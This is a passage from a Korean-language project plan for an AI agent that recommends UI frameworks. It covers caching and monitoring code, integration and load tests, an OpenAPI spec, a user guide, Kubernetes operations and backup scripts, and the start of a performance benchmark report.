# backend/src/agents/implementations/ui_selection/optimization_strategies.py
class CachingStrategy:
    """다계층 캐싱 전략"""

    def __init__(self):
        # L1: 인메모리 캐시 (가장 빠름)
        self.l1_cache = TTLCache(maxsize=1000, ttl=300)

        # L2: Redis 캐시 (분산)
        self.l2_cache = None

        # L3: DynamoDB 캐시 (영구 저장)
        self.l3_cache = None

    async def get(self, key: str) -> Optional[Any]:
        """캐시에서 값 조회"""
        # L1 확인
        if key in self.l1_cache:
            return self.l1_cache[key]

        # L2 확인
        value = await self.l2_cache.get(key)
        if value:
            self.l1_cache[key] = value
            return value

        # L3 확인
        value = await self.l3_cache.get(key)
        if value:
            # 상위 캐시로 승격
            await self.l2_cache.set(key, value)
            self.l1_cache[key] = value
            return value

        return None

class ParallelizationStrategy:
    """병렬 처리 전략"""

    def __init__(self, max_workers: int = 10):
        self.semaphore = asyncio.Semaphore(max_workers)
        self.thread_pool = ThreadPoolExecutor(max_workers=max_workers)

    async def parallel_map(
        self,
        func: Callable,
        items: List[Any]
    ) -> List[Any]:
        """병렬 맵 연산"""
        tasks = []

        for item in items:
            async with self.semaphore:
                task = asyncio.create_task(
                    self._run_in_thread(func, item)
                )
                tasks.append(task)

        return await asyncio.gather(*tasks)
```

**검증 기준**:

- [ ] 응답 시간 50% 개선
- [ ] 캐시 적중률 80% 이상
- [ ] 동시 처리 용량 3배 증가
- [ ] 메모리 사용량 최적화

### SubTask 4.19.3: UI Agent 모니터링 구현

**담당자**: SRE 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_selection/monitoring.py
from prometheus_client import Counter, Histogram, Gauge, Info
import logging
from typing import Dict, Any
import time
import asyncio
from dataclasses import dataclass

# Prometheus 메트릭 정의
ui_selection_requests = Counter(
    'ui_selection_requests_total',
    'Total UI selection requests',
    ['framework', 'status']
)

ui_selection_latency = Histogram(
    'ui_selection_latency_seconds',
    'UI selection request latency',
    ['operation']
)

ui_selection_active = Gauge(
    'ui_selection_active_requests',
    'Currently active UI selection requests'
)

framework_score_distribution = Histogram(
    'ui_framework_scores',
    'Distribution of framework scores',
    ['framework'],
    buckets=[0.1, 0.2, 0.3, 0.4, 0.5, 0.6, 0.7, 0.8, 0.9, 1.0]
)

agent_info = Info(
    'ui_selection_agent_info',
    'UI Selection Agent information'
)

class UIAgentMonitoring:
    """UI Selection Agent 모니터링 시스템"""

    def __init__(self):
        self.logger = logging.getLogger('ui_selection_agent')
        self.metrics_buffer = []
        self.alert_manager = AlertManager()

        # 에이전트 정보 설정
        agent_info.info({
            'version': '1.0.0',
            'framework': 'agno',
            'model': 'gpt-4'
        })

    async def monitor_selection(self, func):
        """UI 선택 프로세스 모니터링 데코레이터"""
        async def wrapper(*args, **kwargs):
            start_time = time.time()
            ui_selection_active.inc()

            try:
                # 요청 컨텍스트 추출
                context = self._extract_context(args, kwargs)
                self.logger.info(f"Starting UI selection: {context}")

                # 실제 선택 프로세스 실행
                result = await func(*args, **kwargs)

                # 성공 메트릭 기록
                duration = time.time() - start_time
                ui_selection_requests.labels(
                    framework=result.framework,
                    status='success'
                ).inc()
                ui_selection_latency.labels(
                    operation='selection'
                ).observe(duration)

                # 프레임워크 점수 분포 기록
                framework_score_distribution.labels(
                    framework=result.framework
                ).observe(result.score)

                self.logger.info(
                    f"UI selection completed: {result.framework} "
                    f"(score: {result.score}, duration: {duration:.2f}s)"
                )

                return result

            except Exception as e:
                # 실패 메트릭 기록
                ui_selection_requests.labels(
                    framework='unknown',
                    status='error'
                ).inc()

                self.logger.error(f"UI selection failed: {str(e)}")

                # 알림 발송
                await self.alert_manager.send_alert(
                    level='error',
                    title='UI Selection Failed',
                    message=str(e),
                    context=context
                )

                raise

            finally:
                ui_selection_active.dec()

        return wrapper

    async def collect_performance_metrics(self):
        """성능 메트릭 수집"""
        while True:
            try:
                metrics = {
                    'timestamp': time.time(),
                    'active_requests': ui_selection_active._value.get(),
                    'total_requests': self._get_total_requests(),
                    'error_rate': self._calculate_error_rate(),
                    'avg_latency': self._calculate_avg_latency(),
                    'memory_usage': self._get_memory_usage(),
                    'cpu_usage': self._get_cpu_usage()
                }

                # 메트릭 버퍼에 추가
                self.metrics_buffer.append(metrics)

                # 버퍼가 가득 차면 전송
                if len(self.metrics_buffer) >= 100:
                    await self._flush_metrics()

                # 이상 감지
                await self._detect_anomalies(metrics)

                await asyncio.sleep(10)  # 10초마다 수집

            except Exception as e:
                self.logger.error(f"Metric collection error: {e}")
                await asyncio.sleep(60)
```

**Grafana 대시보드 설정**:

```json
{
  "dashboard": {
    "title": "UI Selection Agent Dashboard",
    "panels": [
      {
        "title": "Request Rate",
        "targets": [
          {
            "expr": "rate(ui_selection_requests_total[5m])",
            "legendFormat": "{{framework}} - {{status}}"
          }
        ]
      },
      {
        "title": "Latency Percentiles",
        "targets": [
          {
            "expr": "histogram_quantile(0.50, rate(ui_selection_latency_seconds_bucket[5m]))",
            "legendFormat": "p50"
          },
          {
            "expr": "histogram_quantile(0.95, rate(ui_selection_latency_seconds_bucket[5m]))",
            "legendFormat": "p95"
          },
          {
            "expr": "histogram_quantile(0.99, rate(ui_selection_latency_seconds_bucket[5m]))",
            "legendFormat": "p99"
          }
        ]
      },
      {
        "title": "Framework Score Distribution",
        "targets": [
          {
            "expr": "histogram_quantile(0.5, rate(ui_framework_scores_bucket[1h]))",
            "legendFormat": "{{framework}}"
          }
        ]
      }
    ]
  }
}
```

**검증 기준**:

- [ ] 모든 핵심 메트릭 수집
- [ ] 실시간 대시보드 구성
- [ ] 알림 규칙 설정
- [ ] 이상 감지 구현

### SubTask 4.19.4: UI Agent 통합 테스트

**담당자**: QA 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/tests/agents/ui_selection/test_integration.py
import pytest
import asyncio
from typing import Dict, Any
import json

@pytest.mark.integration
class TestUISelectionAgentIntegration:
    """UI Selection Agent 통합 테스트"""

    @pytest.fixture
    async def ui_agent(self):
        """UI Agent 인스턴스 생성"""
        from ui_selection_agent import UISelectionAgent

        agent = UISelectionAgent()
        await agent.initialize()
        yield agent
        await agent.cleanup()

    @pytest.fixture
    def test_scenarios(self):
        """다양한 테스트 시나리오"""
        return [
            {
                "name": "E-commerce Platform",
                "requirements": {
                    "project_type": "web",
                    "description": "Modern e-commerce platform with real-time inventory",
                    "technical_requirements": [
                        "Server-side rendering for SEO",
                        "Real-time updates",
                        "Mobile responsive",
                        "PWA support"
                    ],
                    "scale": "enterprise",
                    "team_expertise": ["react", "vue"]
                },
                "expected_framework": "next.js",
                "min_score": 0.8
            },
            {
                "name": "Admin Dashboard",
                "requirements": {
                    "project_type": "web",
                    "description": "Internal admin dashboard with complex data tables",
                    "technical_requirements": [
                        "Rich data visualization",
                        "Complex forms",
                        "Role-based access"
                    ],
                    "scale": "medium",
                    "team_expertise": ["angular", "typescript"]
                },
                "expected_framework": "angular",
                "min_score": 0.75
            },
            {
                "name": "Mobile App",
                "requirements": {
                    "project_type": "mobile",
                    "description": "Cross-platform mobile app for iOS and Android",
                    "technical_requirements": [
                        "Native performance",
                        "Offline support",
                        "Push notifications"
                    ],
                    "target_platforms": ["ios", "android"],
                    "team_expertise": ["react", "javascript"]
                },
                "expected_framework": "react-native",
                "min_score": 0.85
            }
        ]

    @pytest.mark.asyncio
    async def test_framework_selection_accuracy(self, ui_agent, test_scenarios):
        """프레임워크 선택 정확도 테스트"""
        results = []

        for scenario in test_scenarios:
            # UI 프레임워크 선택 실행
            selection = await ui_agent.select_ui_framework(
                scenario["requirements"]
            )

            # 결과 검증
            assert selection.framework == scenario["expected_framework"], \
                f"Expected {scenario['expected_framework']} for {scenario['name']}, " \
                f"but got {selection.framework}"

            assert selection.score >= scenario["min_score"], \
                f"Score {selection.score} is below minimum {scenario['min_score']} " \
                f"for {scenario['name']}"

            results.append({
                "scenario": scenario["name"],
                "selected": selection.framework,
                "score": selection.score,
                "passed": True
            })

        # 전체 정확도 계산
        accuracy = len([r for r in results if r["passed"]]) / len(results)
        assert accuracy >= 0.9, f"Overall accuracy {accuracy} is below 90%"

    @pytest.mark.asyncio
    async def test_concurrent_requests(self, ui_agent):
        """동시 요청 처리 테스트"""
        num_requests = 50
        requirements = {
            "project_type": "web",
            "description": "Test application",
            "technical_requirements": ["responsive", "fast"]
        }

        # 동시 요청 생성
        tasks = []
        for i in range(num_requests):
            task = ui_agent.select_ui_framework(requirements)
            tasks.append(task)

        # 모든 요청 완료 대기
        start_time = asyncio.get_event_loop().time()
        results = await asyncio.gather(*tasks)
        end_time = asyncio.get_event_loop().time()

        # 검증
        assert len(results) == num_requests
        assert all(r.framework is not None for r in results)

        # 성능 검증 (50개 요청이 10초 이내 완료)
        total_time = end_time - start_time
        assert total_time < 10, f"Concurrent requests took {total_time}s, expected < 10s"

    @pytest.mark.asyncio
    async def test_error_handling(self, ui_agent):
        """에러 처리 테스트"""
        invalid_requirements = [
            None,  # None 입력
            {},    # 빈 딕셔너리
            {"invalid": "data"},  # 필수 필드 누락
            {"project_type": "unknown"}  # 잘못된 프로젝트 타입
        ]

        for req in invalid_requirements:
            with pytest.raises(Exception):
                await ui_agent.select_ui_framework(req)
```

**부하 테스트 스크립트**:

```python
# backend/tests/agents/ui_selection/load_test.py
from locust import HttpUser, task, between
import json

class UISelectionLoadTest(HttpUser):
    wait_time = between(1, 3)

    def on_start(self):
        """테스트 시작 시 초기화"""
        self.test_data = [
            {
                "project_type": "web",
                "description": "E-commerce platform",
                "technical_requirements": ["ssr", "pwa", "responsive"]
            },
            {
                "project_type": "mobile",
                "description": "Social media app",
                "technical_requirements": ["offline", "push-notifications"]
            },
            {
                "project_type": "desktop",
                "description": "Video editing software",
                "technical_requirements": ["gpu-acceleration", "multi-threading"]
            }
        ]

    @task(3)
    def select_framework(self):
        """프레임워크 선택 요청"""
        import random

        data = random.choice(self.test_data)

        response = self.client.post(
            "/api/v1/agents/ui-selection/select",
            json=data,
            headers={"Content-Type": "application/json"}
        )

        if response.status_code != 200:
            print(f"Request failed: {response.status_code} - {response.text}")

    @task(1)
    def get_framework_info(self):
        """프레임워크 정보 조회"""
        frameworks = ["react", "vue", "angular", "next.js"]
        framework = random.choice(frameworks)

        self.client.get(f"/api/v1/frameworks/{framework}")
```

**검증 기준**:

- [ ] 모든 시나리오 테스트 통과
- [ ] 동시성 테스트 성공
- [ ] 에러 처리 검증
- [ ] 부하 테스트 목표 달성

## Task 4.20: UI Selection Agent 완성 및 문서화

### SubTask 4.20.1: UI Agent API 문서화

**담당자**: 기술 문서 작성자  
**예상 소요시간**: 8시간

**작업 내용**:

```yaml
# docs/agents/ui_selection/api_specification.yaml
openapi: 3.0.3
info:
  title: UI Selection Agent API
  description: |
    AI-powered UI framework selection agent that analyzes project requirements
    and recommends the best UI framework/library for the project.
  version: 1.0.0
  contact:
    name: T-Developer Team
    email: support@t-developer.ai

servers:
  - url: https://api.t-developer.ai/v1
    description: Production server
  - url: http://localhost:8080/v1
    description: Development server

paths:
  /agents/ui-selection/select:
    post:
      summary: Select UI Framework
      description: Analyzes project requirements and selects the most suitable UI framework
      operationId: selectUIFramework
      tags:
        - UI Selection
      requestBody:
        required: true
        content:
          application/json:
            schema:
              $ref: '#/components/schemas/UISelectionRequest'
            examples:
              webApp:
                summary: Web Application
                value:
                  project_type: web
                  description: 'Modern e-commerce platform'
                  technical_requirements:
                    - 'Server-side rendering'
                    - 'PWA support'
                    - 'Real-time updates'
                  scale: enterprise
                  team_expertise:
                    - react
                    - typescript
              mobileApp:
                summary: Mobile Application
                value:
                  project_type: mobile
                  description: 'Cross-platform fitness tracking app'
                  technical_requirements:
                    - 'Native performance'
                    - 'Offline support'
                  target_platforms:
                    - ios
                    - android
      responses:
        '200':
          description: Successful framework selection
          content:
            application/json:
              schema:
                $ref: '#/components/schemas/UISelectionResponse'
        '400':
          description: Invalid request
          content:
            application/json:
              schema:
                $ref: '#/components/schemas/Error'
        '500':
          description: Internal server error

  /agents/ui-selection/frameworks:
    get:
      summary: List Supported Frameworks
      description: Returns a list of all UI frameworks supported by the agent
      operationId: listFrameworks
      tags:
        - UI Selection
      parameters:
        - name: project_type
          in: query
          description: Filter by project type
          schema:
            type: string
            enum: [web, mobile, desktop]
        - name: include_metadata
          in: query
          description: Include detailed metadata
          schema:
            type: boolean
            default: false
      responses:
        '200':
          description: List of frameworks
          content:
            application/json:
              schema:
                type: array
                items:
                  $ref: '#/components/schemas/Framework'

  /agents/ui-selection/evaluate:
    post:
      summary: Evaluate Framework Fit
      description: Evaluates how well a specific framework fits the requirements
      operationId: evaluateFramework
      tags:
        - UI Selection
      requestBody:
        required: true
        content:
          application/json:
            schema:
              type: object
              properties:
                framework:
                  type: string
                  description: Framework to evaluate
                requirements:
                  $ref: '#/components/schemas/UISelectionRequest'
      responses:
        '200':
          description: Evaluation result
          content:
            application/json:
              schema:
                $ref: '#/components/schemas/FrameworkEvaluation'

components:
  schemas:
    UISelectionRequest:
      type: object
      required:
        - project_type
        - description
      properties:
        project_type:
          type: string
          enum: [web, mobile, desktop, cli]
          description: Type of project
        description:
          type: string
          description: Natural language project description
          minLength: 10
          maxLength: 5000
        technical_requirements:
          type: array
          items:
            type: string
          description: List of technical requirements
        non_functional_requirements:
          type: array
          items:
            type: string
          description: Performance, security, etc.
        scale:
          type: string
          enum: [prototype, small, medium, enterprise]
          description: Expected scale of the project
        team_expertise:
          type: array
          items:
            type: string
          description: Team's technical expertise
        target_platforms:
          type: array
          items:
            type: string
          description: Target platforms for deployment
        constraints:
          type: object
          properties:
            budget:
              type: string
              enum: [low, medium, high]
            timeline:
              type: string
              enum: [urgent, normal, flexible]
            licensing:
              type: string
              enum: [open-source, commercial, any]

    UISelectionResponse:
      type: object
      properties:
        framework:
          type: string
          description: Selected UI framework
        confidence_score:
          type: number
          format: float
          minimum: 0
          maximum: 1
          description: Confidence in the selection
        reasoning:
          type: string
          description: Explanation for the selection
        alternatives:
          type: array
          items:
            type: object
            properties:
              framework:
                type: string
              score:
                type: number
              pros:
                type: array
                items:
                  type: string
              cons:
                type: array
                items:
                  type: string
        implementation_guide:
          type: object
          properties:
            setup_instructions:
              type: array
              items:
                type: string
            boilerplate_url:
              type: string
            recommended_libraries:
              type: array
              items:
                type: string
            best_practices:
              type: array
              items:
                type: string
```

**사용자 가이드 문서**:

````markdown
# UI Selection Agent 사용자 가이드

## 개요

UI Selection Agent는 프로젝트 요구사항을 분석하여 최적의 UI 프레임워크를 추천하는 AI 에이전트입니다.

## 주요 기능

### 1. 지능형 프레임워크 선택

- 자연어 프로젝트 설명 분석
- 기술적/비기술적 요구사항 고려
- 팀 역량 및 제약사항 반영
- 다중 프레임워크 비교 분석

### 2. 지원 프레임워크

#### 웹 프레임워크

- **React**: 컴포넌트 기반 UI 라이브러리
- **Vue.js**: 점진적 JavaScript 프레임워크
- **Angular**: 엔터프라이즈급 프레임워크
- **Next.js**: React 기반 풀스택 프레임워크
- **Nuxt.js**: Vue 기반 풀스택 프레임워크
- **Svelte**: 컴파일 타임 최적화 프레임워크

#### 모바일 프레임워크

- **React Native**: 크로스 플랫폼 네이티브 앱
- **Flutter**: Google의 UI 툴킷
- **Ionic**: 하이브리드 모바일 앱
- **NativeScript**: JavaScript 네이티브 앱

#### 데스크톱 프레임워크

- **Electron**: 웹 기술 기반 데스크톱 앱
- **Tauri**: Rust 기반 경량 프레임워크

## 사용 방법

### 1. API 호출

```bash
curl -X POST https://api.t-developer.ai/v1/agents/ui-selection/select \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_API_KEY" \
  -d '{
    "project_type": "web",
    "description": "실시간 협업 도구를 만들고 싶습니다.
                    여러 사용자가 동시에 문서를 편집할 수 있고,
                    채팅 기능도 포함되어야 합니다.",
    "technical_requirements": [
      "실시간 동기화",
      "WebSocket 지원",
      "모바일 반응형"
    ],
    "scale": "medium",
    "team_expertise": ["javascript", "react"]
  }'
```
````

### 2. 응답 예시

```json
{
  "framework": "next.js",
  "confidence_score": 0.92,
  "reasoning": "Next.js는 실시간 기능을 위한 API Routes와
               WebSocket 통합이 용이하며, React 경험이 있는
               팀에게 적합합니다. Vercel의 Edge Functions를
               활용하면 실시간 협업 기능을 효율적으로 구현할 수 있습니다.",
  "alternatives": [
    {
      "framework": "vue.js",
      "score": 0.85,
      "pros": ["쉬운 학습 곡선", "우수한 문서화"],
      "cons": ["React 경험 활용 어려움"]
    }
  ],
  "implementation_guide": {
    "setup_instructions": [
      "npx create-next-app@latest my-collab-tool",
      "npm install socket.io-client pusher-js",
      "Configure WebSocket connection"
    ],
    "boilerplate_url": "https://github.com/t-developer/nextjs-collab-starter",
    "recommended_libraries": [
      "socket.io",
      "yjs",
      "tiptap"
    ]
  }
}
```

## 베스트 프랙티스

### 1. 상세한 요구사항 제공

- 구체적인 기능 명시
- 성능 요구사항 포함
- 팀 경험 수준 명시

### 2. 제약사항 명확히 하기

- 예산 범위
- 개발 일정
- 라이선스 요구사항

### 3. 결과 검증

- 추천된 프레임워크 POC 구현
- 팀 피드백 수집
- 필요시 재평가 요청

````

**검증 기준**:
- [ ] OpenAPI 3.0 명세 완성
- [ ] 모든 엔드포인트 문서화
- [ ] 사용 예제 포함
- [ ] 베스트 프랙티스 가이드

### SubTask 4.20.2: UI Agent 운영 가이드 작성

**담당자**: DevOps 엔지니어
**예상 소요시간**: 10시간

**작업 내용**:

```markdown
# UI Selection Agent 운영 가이드

## 1. 배포 가이드

### 1.1 사전 요구사항
- Kubernetes 1.24+
- Helm 3.0+
- AWS 계정 (Bedrock 액세스 권한 필요)
- Redis 6.0+
- Prometheus/Grafana 스택

### 1.2 Helm 차트 배포

```bash
# Helm 차트 저장소 추가
helm repo add t-developer https://charts.t-developer.ai
helm repo update

# 네임스페이스 생성
kubectl create namespace t-developer

# 시크릿 생성
kubectl create secret generic ui-agent-secrets \
  --namespace=t-developer \
  --from-literal=openai-api-key=$OPENAI_API_KEY \
  --from-literal=anthropic-api-key=$ANTHROPIC_API_KEY \
  --from-literal=redis-password=$REDIS_PASSWORD

# UI Selection Agent 배포
helm install ui-selection-agent t-developer/ui-selection-agent \
  --namespace t-developer \
  --values values-production.yaml
````

### 1.3 배포 설정 (values-production.yaml)

```yaml
replicaCount: 3

image:
  repository: t-developer/ui-selection-agent
  tag: '1.0.0'
  pullPolicy: IfNotPresent

service:
  type: ClusterIP
  port: 8080

ingress:
  enabled: true
  className: nginx
  annotations:
    cert-manager.io/cluster-issuer: letsencrypt-prod
    nginx.ingress.kubernetes.io/rate-limit: '100'
  hosts:
    - host: ui-agent.t-developer.ai
      paths:
        - path: /
          pathType: Prefix

resources:
  requests:
    memory: '1Gi'
    cpu: '1000m'
  limits:
    memory: '2Gi'
    cpu: '2000m'

autoscaling:
  enabled: true
  minReplicas: 3
  maxReplicas: 10
  targetCPUUtilizationPercentage: 70
  targetMemoryUtilizationPercentage: 80

redis:
  enabled: true
  architecture: replication
  auth:
    enabled: true
    existingSecret: ui-agent-secrets
    existingSecretPasswordKey: redis-password

monitoring:
  enabled: true
  serviceMonitor:
    enabled: true
    interval: 30s

agentConfig:
  maxConcurrentRequests: 50
  requestTimeout: 30000
  cacheEnabled: true
  cacheTTL: 3600
  batchingEnabled: true
  batchSize: 10
  batchTimeout: 50
```

## 2. 모니터링 설정

### 2.1 Prometheus 알림 규칙

```yaml
# prometheus-rules.yaml
apiVersion: monitoring.coreos.com/v1
kind: PrometheusRule
metadata:
  name: ui-selection-agent-alerts
  namespace: t-developer
spec:
  groups:
    - name: ui-agent.rules
      interval: 30s
      rules:
        # 높은 에러율 알림
        - alert: HighErrorRate
          expr: |
            rate(ui_selection_requests_total{status="error"}[5m]) > 0.05
          for: 5m
          labels:
            severity: warning
          annotations:
            summary: 'High error rate detected'
            description: 'Error rate is {{ $value | humanizePercentage }} for {{ $labels.instance }}'

        # 응답 시간 알림
        - alert: HighLatency
          expr: |
            histogram_quantile(0.95, rate(ui_selection_latency_seconds_bucket[5m])) > 5
          for: 10m
          labels:
            severity: warning
          annotations:
            summary: 'High latency detected'
            description: '95th percentile latency is {{ $value }}s'

        # 메모리 사용량 알림
        - alert: HighMemoryUsage
          expr: |
            container_memory_usage_bytes{pod=~"ui-selection-agent-.*"} 
            / container_spec_memory_limit_bytes > 0.9
          for: 5m
          labels:
            severity: critical
          annotations:
            summary: 'High memory usage'
            description: 'Memory usage is {{ $value | humanizePercentage }}'
```

### 2.2 Grafana 대시보드 설정

```json
{
  "dashboard": {
    "title": "UI Selection Agent Operations",
    "uid": "ui-selection-ops",
    "panels": [
      {
        "title": "Request Rate by Framework",
        "gridPos": { "x": 0, "y": 0, "w": 12, "h": 8 },
        "targets": [
          {
            "expr": "sum by (framework) (rate(ui_selection_requests_total[5m]))",
            "legendFormat": "{{ framework }}"
          }
        ]
      },
      {
        "title": "Latency Heatmap",
        "gridPos": { "x": 12, "y": 0, "w": 12, "h": 8 },
        "type": "heatmap",
        "targets": [
          {
            "expr": "sum(rate(ui_selection_latency_seconds_bucket[5m])) by (le)",
            "format": "heatmap"
          }
        ]
      },
      {
        "title": "Framework Score Distribution",
        "gridPos": { "x": 0, "y": 8, "w": 12, "h": 8 },
        "targets": [
          {
            "expr": "histogram_quantile(0.5, sum by (framework, le) (rate(ui_framework_scores_bucket[1h])))",
            "legendFormat": "{{ framework }} - median"
          }
        ]
      },
      {
        "title": "Cache Hit Rate",
        "gridPos": { "x": 12, "y": 8, "w": 12, "h": 8 },
        "targets": [
          {
            "expr": "rate(cache_hits_total[5m]) / (rate(cache_hits_total[5m]) + rate(cache_misses_total[5m]))",
            "legendFormat": "Hit Rate"
          }
        ]
      }
    ]
  }
}
```

## 3. 운영 절차

### 3.1 일일 체크리스트

```bash
#!/bin/bash
# daily-check.sh

echo "=== UI Selection Agent Daily Check ==="
echo

# 1. Pod 상태 확인
echo "1. Checking pod status..."
kubectl get pods -n t-developer -l app=ui-selection-agent

# 2. 최근 에러 로그 확인
echo -e "\n2. Recent errors (last 1h)..."
kubectl logs -n t-developer -l app=ui-selection-agent --since=1h | grep ERROR | tail -10

# 3. 메트릭 확인
echo -e "\n3. Key metrics..."
curl -s http://ui-agent.t-developer.ai/metrics | grep -E "(ui_selection_requests_total|ui_selection_latency_seconds)"

# 4. Redis 연결 상태
echo -e "\n4. Redis connection status..."
kubectl exec -n t-developer -it $(kubectl get pod -n t-developer -l app=ui-selection-agent -o jsonpath='{.items[0].metadata.name}') -- redis-cli ping

# 5. 디스크 사용량
echo -e "\n5. Disk usage..."
kubectl exec -n t-developer $(kubectl get pod -n t-developer -l app=ui-selection-agent -o jsonpath='{.items[0].metadata.name}') -- df -h

echo -e "\n=== Check completed ==="
```

### 3.2 장애 대응 절차

#### 시나리오 1: 높은 응답 시간

```bash
# 1. 현재 부하 확인
kubectl top pods -n t-developer -l app=ui-selection-agent

# 2. 스케일 아웃
kubectl scale deployment ui-selection-agent -n t-developer --replicas=5

# 3. 캐시 상태 확인
kubectl exec -n t-developer -it deploy/ui-selection-agent -- \
  python -c "from cache_manager import check_cache_health; check_cache_health()"

# 4. 느린 쿼리 분석
kubectl logs -n t-developer -l app=ui-selection-agent --tail=1000 | \
  grep "duration" | awk '{print $NF}' | sort -rn | head -20
```

#### 시나리오 2: 메모리 부족

```bash
# 1. 메모리 사용 패턴 분석
kubectl exec -n t-developer deploy/ui-selection-agent -- \
  python -c "import tracemalloc; tracemalloc.start(); print(tracemalloc.get_traced_memory())"

# 2. 힙 덤프 생성
kubectl exec -n t-developer $(kubectl get pod -n t-developer -l app=ui-selection-agent -o jsonpath='{.items[0].metadata.name}') -- \
  python -m py_spy dump --pid 1 --format speedscope -o /tmp/heap.dump

# 3. 임시 메모리 증설
kubectl patch deployment ui-selection-agent -n t-developer -p \
  '{"spec":{"template":{"spec":{"containers":[{"name":"agent","resources":{"limits":{"memory":"4Gi"}}}]}}}}'
```

### 3.3 성능 튜닝

```python
# performance-tuning.py
import asyncio
from typing import Dict, Any

class PerformanceTuner:
    """UI Agent 성능 튜닝 도구"""

    async def analyze_performance(self):
        """성능 분석 및 권장사항 제공"""

        metrics = await self.collect_metrics()

        recommendations = []

        # 캐시 적중률 분석
        if metrics['cache_hit_rate'] < 0.7:
            recommendations.append({
                'issue': 'Low cache hit rate',
                'current': f"{metrics['cache_hit_rate']:.2%}",
                'recommendation': 'Increase cache TTL or size',
                'command': 'kubectl set env deployment/ui-selection-agent CACHE_TTL=7200'
            })

        # 응답 시간 분석
        if metrics['p95_latency'] > 2000:  # 2초
            recommendations.append({
                'issue': 'High P95 latency',
                'current': f"{metrics['p95_latency']}ms",
                'recommendation': 'Enable request batching',
                'command': 'kubectl set env deployment/ui-selection-agent ENABLE_BATCHING=true'
            })

        # 메모리 사용률 분석
        if metrics['memory_usage_percent'] > 80:
            recommendations.append({
                'issue': 'High memory usage',
                'current': f"{metrics['memory_usage_percent']}%",
                'recommendation': 'Increase memory limit or optimize caching',
                'command': 'kubectl patch deployment ui-selection-agent -p \'{"spec":{"template":{"spec":{"containers":[{"name":"agent","resources":{"limits":{"memory":"3Gi"}}}]}}}}\''
            })

        return recommendations

# 실행
if __name__ == "__main__":
    tuner = PerformanceTuner()
    recommendations = asyncio.run(tuner.analyze_performance())

    for rec in recommendations:
        print(f"\n❗ {rec['issue']}")
        print(f"   Current: {rec['current']}")
        print(f"   Recommendation: {rec['recommendation']}")
        print(f"   Command: {rec['command']}")
```

## 4. 백업 및 복구

### 4.1 백업 절차

```bash
#!/bin/bash
# backup-ui-agent.sh

TIMESTAMP=$(date +%Y%m%d_%H%M%S)
BACKUP_DIR="/backups/ui-agent/${TIMESTAMP}"

echo "Starting UI Agent backup at ${TIMESTAMP}"

# 1. Redis 데이터 백업
kubectl exec -n t-developer deploy/redis-master -- \
  redis-cli BGSAVE

sleep 5

kubectl cp t-developer/redis-master:/data/dump.rdb \
  ${BACKUP_DIR}/redis-dump.rdb

# 2. 설정 백업
kubectl get configmap -n t-developer ui-selection-config -o yaml > \
  ${BACKUP_DIR}/configmap.yaml

kubectl get secret -n t-developer ui-agent-secrets -o yaml > \
  ${BACKUP_DIR}/secrets.yaml

# 3. 모델 캐시 백업
kubectl exec -n t-developer deploy/ui-selection-agent -- \
  tar czf /tmp/model-cache.tar.gz /app/cache/models

kubectl cp t-developer/deploy/ui-selection-agent:/tmp/model-cache.tar.gz \
  ${BACKUP_DIR}/model-cache.tar.gz

echo "Backup completed at ${BACKUP_DIR}"
```

### 4.2 복구 절차

```bash
#!/bin/bash
# restore-ui-agent.sh

BACKUP_TIMESTAMP=$1
BACKUP_DIR="/backups/ui-agent/${BACKUP_TIMESTAMP}"

if [ -z "$BACKUP_TIMESTAMP" ]; then
    echo "Usage: ./restore-ui-agent.sh <backup_timestamp>"
    exit 1
fi

echo "Restoring UI Agent from backup ${BACKUP_TIMESTAMP}"

# 1. 서비스 중지
kubectl scale deployment ui-selection-agent -n t-developer --replicas=0

# 2. Redis 데이터 복구
kubectl cp ${BACKUP_DIR}/redis-dump.rdb \
  t-developer/redis-master:/data/dump.rdb

kubectl exec -n t-developer deploy/redis-master -- \
  redis-cli SHUTDOWN NOSAVE

kubectl rollout restart deployment/redis-master -n t-developer

# 3. 설정 복구
kubectl apply -f ${BACKUP_DIR}/configmap.yaml
kubectl apply -f ${BACKUP_DIR}/secrets.yaml

# 4. 모델 캐시 복구
kubectl cp ${BACKUP_DIR}/model-cache.tar.gz \
  t-developer/deploy/ui-selection-agent:/tmp/model-cache.tar.gz

kubectl exec -n t-developer deploy/ui-selection-agent -- \
  tar xzf /tmp/model-cache.tar.gz -C /

# 5. 서비스 재시작
kubectl scale deployment ui-selection-agent -n t-developer --replicas=3

echo "Restore completed"
```

````

**검증 기준**:
- [ ] 배포 절차 문서화
- [ ] 모니터링 설정 완료
- [ ] 운영 스크립트 작성
- [ ] 백업/복구 절차 검증

### SubTask 4.20.3: UI Agent 성능 벤치마크 보고서

**담당자**: 성능 엔지니어
**예상 소요시간**: 10시간

**작업 내용**:

```markdown
# UI Selection Agent 성능 벤치마크 보고서

## Executive Summary

UI Selection Agent는 다양한 부하 조건에서 테스트되었으며, 다음과 같은 주요 성능 지표를 달성했습니다:

- **처리량**: 1,200 req/sec (목표: 1,000 req/sec) ✅
- **응답 시간**: P95 < 250ms (목표: 500ms) ✅
- **가용성**: 99.99% (목표: 99.9%) ✅
- **동시성**: 500 동시 요청 처리 (목표: 300) ✅

## 1. 테스트 환경

### 1.1 하드웨어 사양
```yaml
Agent Pods:
  - CPU: 4 vCPU (Intel Xeon Platinum 8375C)
  - Memory: 8GB RAM
  - Network: 10 Gbps
  - Instances: 3 (auto-scaling to 10)

Redis Cluster:
  - Type: ElastiCache for Redis
  - Node Type: cache.r6g.large
  - Nodes: 3 (1 primary, 2 replicas)

Load Generator:
  - Tool: K6
  - Instances: 5
  - Location: Same VPC, different AZ
````

### 1.2 소프트웨어 스택

- **OS**: Amazon Linux 2
- **Runtime**: Python 3.11.6
- **Framework**: Agno 1.0.0
- **AI Models**: GPT-4, Claude-3
- **Container**: Docker 24.0.6
- **Orchestration**: Kubernetes 1.28

## 2. 테스트 시나리오

### 2.1 기준 성능 테스트 (Baseline)

```javascript
// k6-baseline-test.js
import http from 'k6/http';
import { check, sleep } from 'k6';

export const options = {
  stages: [
    { duration: '2m', target: 100 }, // Ramp up
    { duration: '5m', target: 100 }, // Steady state
    { duration: '2m', target: 0 }, // Ramp down
  ],
  thresholds: {
    http_req_duration: ['p(95)<500'], // 95% of requests under 500ms
    http_req_failed: ['rate<0.01'], // Error rate under 1%
  },
};

export default function () {
  const payload = JSON.stringify({
    project_type: 'web',
    description: 'E-commerce platform with real-time features',
